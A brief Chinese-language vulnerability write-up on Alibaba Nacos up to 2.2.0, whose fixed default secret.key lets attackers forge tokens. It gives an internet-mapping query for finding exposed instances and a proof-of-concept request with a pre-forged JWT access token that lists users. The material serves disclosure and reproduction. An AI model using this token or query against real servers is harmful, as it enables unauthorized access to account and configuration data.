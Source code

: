 # Alibaba Nacos secret.key默认密钥 未授权访问漏洞

## 漏洞描述

Alibaba Nacos 使用了固定的secret.key默认密钥，导致攻击者可以构造请求获取敏感信息，导致未授权访问漏洞

## 漏洞影响

<a-checkbox checked>Alibaba Nacos <= 2.2.0 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="NACOS" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1679978968874-19b918f8-6501-448d-b9c2-9bbdb48b43b7-20230328130353821.png)

漏洞原因是由于使用了固定的Key

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1679978948082-1c2e3bc7-a2c2-4d57-b853-53917fe60b41.png)

验证POC

```javascript
/nacos/v1/auth/users?accessToken=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY5ODg5NDcyN30.feetKmWoPnMkAebjkNnyuKo6c21_hzTgu0dfNqbdpZQ&pageNo=1&pageSize=9
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1679979057091-8b419866-b16b-4bf4-b8a0-45a7b549adc8.png)